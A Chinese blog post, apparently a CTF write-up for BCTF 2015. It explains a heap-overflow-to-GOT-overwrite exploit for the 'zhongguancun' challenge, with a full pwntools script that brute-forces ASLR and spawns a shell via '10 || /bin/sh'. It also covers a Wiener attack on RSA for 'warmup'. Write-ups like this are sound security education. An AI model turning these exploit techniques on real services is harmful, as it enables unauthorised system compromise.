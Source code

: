 ```yaml
---
title: BCTF writeup
author: rk700
layout: post
redirect_from: 
  - /article/2015/03/25/bctf-writeup
  - /article/2015/03/25/bctf-writeup/
tags:
  - exploit
  - crypto
---
```


周末参加了今年的第一次CTF，BCTF。由于这次CTF是面向国际的，所以题目的质量都比较高，种类也比较单纯，以逆向、溢出为主。这次确实是一个非常难得的锻炼机会，让我们体验到了国际水平CTF的难度。

我们队做出了5道题，我做出了zhongguancun和warmup。在这里记录下我思考的过程。

## zhongguancun

是我在周日下午才做出来的。（差距啊……）

我的习惯是，首先通读一遍IDA F5得到的伪代码。但读完后没有发现什么明显的漏洞。具体的，可以创建不同种类的商品，最多16个。有一个全局的数组保存这些商品的指针，而每个商品的结构体中，除了保存我们提供的描述信息、价格等，还在结构体的起始处存有函数指针数组。这里面的函数是在某些步骤下要调用的。此外，还可以汇总现有的商品，生成一个menu，里面记录了商品的所有信息。

第一天找溢出点就花了好久……因为一直没有发现那种很明显的覆盖。最后，是比较了malloc分给menu的大小和menu最多可能存放的内容长度，才发现了溢出点。而且要做到溢出还是比较苛刻的，不仅商品的数目要达到最大，每个商品里的信息长度也要最长，就连商品的价格也要使得printf打印出来的尽可能长（所以价格是负数，就为了多那一个负号）。这样的结果是，生成的menu的长度可以超过malloc分配的长度，覆盖后面的内容。

而menu和商品都是在heap上储存的，如果在menu的后面存有商品，那么上述的溢出就可以修改那个商品的结构体。通过实验发现，我们先生成menu，再添加商品，那么这新添加的商品在heap的地址就在menu的地址之后了。通过计算可得，溢出可以覆盖menu下一个block的前5个字符，所以正好可以覆盖那个商品保存的函数数组。于是我的想法是，先添加第一个商品（因为如果没有商品就不能生成menu），再生成menu；再添加15个商品，再次重新生成menu（用的地址还是前面分配给menu的地址）。这样的话，第二个商品的函数数组就被覆盖了。之后我们再对这个商品进行访问，就可以调用我们提供的函数了。

但是，到这里才刚开始……函数数组里有两个函数，每一个在调用之前都会做检查。如果往函数数组里读`/dev/zero`成功，那么就认为检查不通过。也就是说，要求我们覆盖后的地址是不可写的，GOT这种运行时可写的就不满足要求。这一点我觉得是这道题的关键（最后发现flag里也说到了这一点）

我试着打印.text段里包含的函数指针，发现没有找到什么好用的。最后只能将目光放在原本的函数数组上。这两个函数，一个是用来生成商品的menu内容，参数是商品指针和用来存放所生成字符串的地址；另一个则是计算价格，参数是商品指针和购买数量。我突然发现，如果在应该调用第二个函数时，调用了第一个，那么就可以实现往任意地址写内容了。这是因为，第二个参数--我们提供的购买数量，会被当作是要保存menu信息的字符串地址，`sprintf`往里面写内容。

然而到这里，这个向任意地址写内容的漏洞还是不太实用。因为`sprintf`所写的内容一直到非常靠后面才是我们可控的，即就是说为了修改某地址，我们需要从这个地址的前面就开始覆盖，而这就有一定的局限性。比如说要覆盖GOT第一个的`sprintf`，就需要从GOT前面很远的地方开始写，而不幸的是，那里是不可写的。这个问题也是困扰我比较久的一处。

最后发现了不自然的地方。（又是不自然之处，我觉得我很多题目都是从那些看上去很别扭的地方突破的）具体地，程序里预先定义了商品的不同类型，而且我们也只能选择其一，但这些商品类型字符串居然没有保存在`rodata`里面。一般来说这些都是字符串常量的。这就是不自然的地方。也就是说，我们利用前面的向任意地址写内容的漏洞，去修改这些商品类型字符串的内容；进一步，在后面再次调用有问题的生成menu信息的函数时，所用的商品类型信息变成了我们刚刚修改的，而这些信息恰好就被`sprintf`打印在最开始了。这就解决了上面提到的问题，不需要在目标地址之前开始覆盖了。

于是，我们有了一个可用的向任意地址写任意内容的漏洞。下面所做的，我首先是打印库函数地址来检查ASLR。因为有提供`libc.so`，所以通过某个函数地址泄露就可以得到`system`的地址。我是通过改写存放商品指针的数组内容来做到这一点的。具体地，改写存放所有商品指针的数组的某一项，然后在购买该项时选择"buy buy buy"，计算剩余金钱。这样就会取读这个商品指针后面`ptr+0x76`处的4 bytes作为商品的价格，于是由剩余的金钱就可以计算出商品的价格，即`ptr+0x76`处的内容。当然实际操作时，程序还会检查剩余金额需要非负。这一点，我们可以先买价格为负数的其他商品，使得总金钱变的足够大后再去买。

通过检查GOT里库函数地址，我发现虽然ASLR开启了，但库函数地址只有中间2个bytes被随机化了，也就是说最多只有256种可能，这和我见到的的ASLR相比太少了。这也直接导致我最后使用暴力碰撞地址的办法。因为时间紧迫，我没有分析出如何将计算得到的`system`的地址再写回（有知道的大牛请不吝赐教哈），而是猜测`system`的一个可能的地址，然后反复跑直到真正的地址恰好是我所猜测的。具体地，修改`sprintf@got`为这个我猜的`system`的地址，那么在执行计算价格时，`sprintf`会作用到某个字符串buf上，而那里正好存放的是刚刚读入的购买商品的个数。于是我如果输入`10 || /bin/sh`，那么`atoi`会返回10，通过检查，紧接着的`sprinf`就会变成调用`system("10 || /bin/sh")`，执行shell了。不过这里我后来想改`atoi@got`应该也可以，而且更方便。

于是，我开始一遍遍地跑，希望我猜测的地址能够碰上。跑了大概20几次，终于撞上了。得到flag是`BCTF{h0w_could_you_byp4ss_vt4ble_read0nly_ch3cks}`。好吧，readonly check，我也是第一次见到这样的，学习了。

下面是python代码，其中`system`的地址就是我猜测的。

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys

if __name__ == '__main__' :
    context(arch='i386', os='linux')
    elf = ELF('zhong')

    #ip = "127.0.0.1"
    ip = sys.argv[1]
    conn = remote(ip, 6666)

#store name
    payload = "a\n" + "A"*63 + "\n"
    conn.recvuntil("Your choice? ")
    conn.send(payload)

    genPhoneDes = 0x08049b74

#content of GOT before function addresses are resolved
#len 18
    gotB4=[0x080486c6, 0x080486d6, 0x080486e6, 0x080486f6, 0x08048706, 0x08048716, 0x08048726, 0xf7cc5570, 0x08048746, 0x08048756, 0x08048766, 0x08048776, 0x08048786, 0x08048796, 0x080487a6, 0x080487b6, 0x080487c6, 0x080487d6]
    
    system = 0xf7433da0
#rewrite the 1st entry(sprint) as system, and make sure the other function calls won't crash
    funcAddr = [system] + gotB4[1:]

#create the 1st product
    payload = "a\n" + "B"*31 + "\n4\n-1011111111\n" + "CC" + ''.join([p32(x) for x in funcAddr]) + p32(genPhoneDes) + "D\n"
    conn.recvuntil("Your choice? ")
    conn.send(payload)

#generate the menu
    conn.recvuntil("Your choice? ")
    conn.send("c\n")

#create the following product
    for i in range(1,16):
        conn.recvuntil("Your choice? ")
        conn.send(payload)

#generate the menu again
    conn.recvuntil("Your choice? ")
    conn.send("c\n")

#write to addr storing phone type string 
    blackberry = 0x0804b0fc
    payload = "d\nb\n2\nb\n" + str(blackberry-60) + "\n"
    conn.send(payload)
    
#rewrite sprintf@got
    sprintfGot = 0x0804b00c
    payload = "b\n" + str(sprintfGot) + "\n"
    conn.send(payload)
    conn.recvuntil("Your choice? ")

#calculate wholwsale price of another product
    payload = "c\nb\n5\nb\n"
    conn.send(payload)
    conn.recvuntil("How many do you plan to buy?")

#call sprintf which is system now
    cmd = "/bin/sh"
    payload = "10 || " + cmd + "\n"
    conn.send(payload)

    conn.interactive()
{% endhighlight %}

后记：阅读其他人的writeup，才知道可以不用暴力碰撞的……只需要通过对`atoi@got`进行一个相对的修改，改为`system`即可。而这是可以通过将`atoi@got`改为存放金钱的指针来完成，然后在减去花费的金额时就可以对那里操作了。太巧妙了！

## warmup

这道题只有50分，应该不难，但我是一直到周一凌晨1点多才做出来……

这道题是RSA，给了密文`c`和公钥文件，从中可以获得公钥`e`, `n`。发现`e`非常大，几乎和`n`是同阶的，这非常不自然，因为我常见到的`e`都是很小的。最后我是在查看RSA的wiki时，发现说密钥`d`应该足够大，否则会有Wiener攻击破解。而联想到这么大的`e`，我猜想`d`可能会很小，没想到试了下真的是这样……我是直接用[这里](https://github.com/pablocelayes/rsa-wiener-attack)的现成的代码，并且设置`sys.setrecursionlimit`为10000，用了大概一分多钟得到了密钥`d`。之后就是简单的指数运算，得到明文`p=0x424354467b3965745265613479217d`，即`BCTF{9etRea4y!}`。

## 感想

虽然我们的成绩并不是那么突出，但这次比赛还是很有意义的。其实从总体来看，感觉国内的队伍对web方面的题目还是比较熟练，国外队伍则是在溢出、逆向这些方面比较强。而这次比赛，有大量大分值的溢出逆向题目，所以最后的成绩，国内队伍和国际顶级队伍还是有不小差距。也许溢出逆向为主是国际比赛的主流风格了。不 管怎样，我相信我们国内的队伍也会在这方面不断提高的，我也希望能够和爱好信息安全的小伙伴们共同探讨学习，提高水平。

